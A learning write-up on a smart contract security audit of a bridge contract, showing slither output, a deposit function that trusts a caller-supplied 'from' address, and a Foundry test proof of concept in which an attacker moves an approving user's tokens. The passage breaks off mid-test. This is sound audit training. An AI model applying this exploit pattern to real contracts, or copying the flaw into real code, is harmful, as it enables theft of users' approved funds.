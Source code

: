 _This article mainly records the questions and gains I encountered while learning smart contract security auditing._

# Routine Checks

For this project, `aderyn` did not find any serious issues, but `slither` detected many problems. This reminds us again that every tool has its necessity; there is no such thing as a universally perfect tool.

```text-x-sh
L1BossBridge.depositTokensToL2(address,address,uint256) (src/L1BossBridge.sol#73-81) uses arbitrary from in transferFrom: token.safeTransferFrom(from,address(vault),amount) (src/L1BossBridge.sol#77)
Reference: https://github.com/crytic/slither/wiki/Detector-Documentation#arbitrary-from-in-transferfrom
```

This is part of the output from `slither`. Based on these two outputs, we can identify at least three high-risk vulnerabilities.

# Excessive Trust in Incoming Parameters Leading to Fund Loss

Due to adding some comments in the project, the line numbers shown by `slither` may differ from your local runs, but this is not a big issue.

```application-javascript-env-frontend
    function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
@>      token.safeTransferFrom(from, address(vault), amount);


        emit Deposit(from, l2Recipient, amount);
    }
```

It can be seen that during the `transfer`, the passed-in parameter `from` is used directly. Let's look at `slither`'s official explanation of this problem:

> _Alice approves this contract to spend her ERC20 tokens. Bob can call a and specify Alice's address as the_ `from` _parameter in_ `transferFrom`_, allowing him to transfer Alice's tokens to himself._

According to this explanation and the project code, the problem occurring during `transfer` is clear. It shows that `slither`'s detection capability is indeed strong.

Next, let's write some code to verify this issue. It's quite simple: first call `approve`, then directly call `depositTokensToL2`.

```application-javascript-env-frontend
    function testDepositTokensToL2() public {
        vm.prank(user);
        token.approve(address(tokenBridge), type(uint256).max);


        uint256 depositAmount = token.balanceOf(user);
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount);

        console2.log("balance of user: ", token.balanceOf(user));
        console2.log("balance of vault: ", token.balanceOf(address(vault)));
        vm.stopPrank();
```